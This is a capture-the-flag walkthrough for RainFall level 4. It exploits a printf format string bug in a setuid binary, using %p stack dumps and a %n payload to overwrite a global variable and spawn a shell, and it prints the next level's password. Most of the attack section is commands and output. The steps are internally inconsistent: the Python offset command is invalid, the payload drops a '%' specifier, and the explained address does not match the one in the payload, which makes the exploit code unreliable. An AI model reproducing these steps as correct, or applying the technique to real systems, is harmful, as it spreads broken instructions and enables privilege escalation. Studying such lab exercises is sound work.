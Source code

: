 # Level4

## Objective

The goal of Level 4 is to escalate from `level4` to `level5` by exploiting a format string vulnerability in the `level4` binary. By the end, you should be able to read the password for `level4`.

---

## Step 1: Examine the Binary

After switching to `level4`:

```bash
level4@RainFall:~$ ls
level4
```

Running the binary:

```bash
level4@RainFall:~$ ./level4
Hello
Hello
```

The program simply echoes back what we type, but suspiciously uses `printf()` directly with user input.

---

## Step 2: Investigate with `ltrace`

```bash
level4@RainFall:~$ ltrace ./level4
printf("test") = 4
```

We see that `printf()` is called **without a format string**, which means our input is treated as the format string itself.

---

## Step 3: Test with Format Specifiers

```bash
level4@RainFall:~$ ./level4
%p %p %p %p
0xbffff744 0xb7fd0ff4 0x80484b7 0x25207025
```

We can dump stack values using `%p`. This confirms a **format string vulnerability**.

I'm sure you want to understand whats the point here. The `%n` reads the input and write the number of bytes he read right after.
Yes, if we make him read a sequence of chosen numbers he will possibly over-write the number corresponding. (to an adress maybe ?)

---

## Step 4: Lets try to disass functions.

We found two functions, `p()` and `n()`.
* **`p()` uses printf,
* **`n()` reads our input,
      calls `p()`, 
      gives a value to m (a global variable empty so far) [0x8049810], 
      compare m with 0x1025544, 
      if m != jump to an exit, 
      else run `/bin/sh`

The goal here is clear give m the right value to pass the cmp and execute the syscall.

---

## Step 5: So what's the expected input?

We want to overwrite a global variable called `m` that controls access to the target function. The program wants m to be equal to `16930116` in decimal.

Therefore, our goal is to use `%n` to write the value `16930116` into the memory address of `m`.

---

## Step 6: Find the ofset

```bash
python -c 'print "aaaa" + "%x" + 15' > /tmp/exploit
cat /tmp/exploit | ./level4
```
The ofset is at the 12th position, meaning that the first arg given to printf appears at the 12th position.

We inject the address of `m` into the input, followed by a format string to write `16930116` bytes before using `%n`.
Also it needs to be written at the 12th position.

```bash
python -c 'print "\x10\x98\x04\x08" + "16930112d%12$n"' > /tmp/exploit
```

Explanation:

* `\x8c\x98\x04\x08` → address of `m` in little-endian.
* `16930112d` → prints 16930112 decimals.
* `%12$n` → our `m` address.

---

## Step 7: Run Exploit

```bash
level4@RainFall:~$ cat /tmp/exploit | ./level4
                                                                                     -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

We successfully overwrite `m` and trigger the hidden shell.

---

> With this, you can `su level5` using the password.






